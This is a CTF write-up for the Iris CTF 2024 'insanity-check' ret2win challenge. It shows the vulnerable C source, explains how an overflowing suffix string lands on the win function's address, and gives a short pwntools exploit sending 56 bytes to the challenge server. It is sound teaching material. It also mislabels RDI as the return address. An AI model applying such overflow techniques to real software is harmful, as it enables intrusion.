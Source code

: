 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description: N/A
points: 50
solves: 254
tags: pwn buffer-overflow ret2win
date: 2024-1-7
comments: false
---
```


I've tried the brand new michael-ld linker on my hello world program. I'm pretty sure it's super safe now.  
`nc insanity-check.chal.irisc.tf 10003`  
[insanity-check.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/insanity-check.tar.gz)  

---

We're given an ELF binary and a C source file. Here's `vuln.c`:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

Firstly, we can clearly recognize the use of `fgets()`, which is known to be safe from buffer overflow. Thus, we can't directly overflow the `name` variable, as it is allocated 64 bytes and fgets ensures the program only reads 64 bytes.  

However, something else seems to be happening. We are also adding some other strings onto the name to create a message, and printing it back to the user. There's no format string vulnerability, as `%s` is used for the printf call. But, that `suffix` variable seems pretty long... and we're only allocated 128 bytes for the `message` variable. Can we cause a buffer overflow there?  

I sent 64 bytes of input to the program, and sure enough, we got a segfault. There's our vulnerability!  

But, there's a slight problem. We can't directly modify RDI (i.e. the return address) with our input, as it's not long enough. But there's a very suspicious string at the end of `suffix`... why are there 4 null bytes?  

At this point, I realized the trick. Maybe the end of the suffix very conveniently turned out to be the address of the win function?  

Running `file vuln` (since I forgot to do it before), I realized that this was an x86-64 ELF, which means the 4 null bytes at the end made sense. Then, with pwntools, I checked the win address with `print(elf.symbols['win'])`, which returned `0x6d6f632e`. That looks suspiciously like ASCII. A quick hex to ASCII conversion shows that it definitely is!  

Hence, we just have to send in the correct offset of bytes to get the win address to align correctly. Simple guess and check should work, as with pwndbg's gdb, it'll show us what part of the string is currently filling the win address. Thus, here's the final exploit after guess and check:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./vuln")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./vuln')
# gdb.attach(p)
p = remote('insanity-check.chal.irisc.tf', 10003)

p.sendline(
    b'A'*56
)

p.interactive()
```

And here's the flag!  

    irisctf{c0nv3n13nt_symb0l_pl4cem3nt}
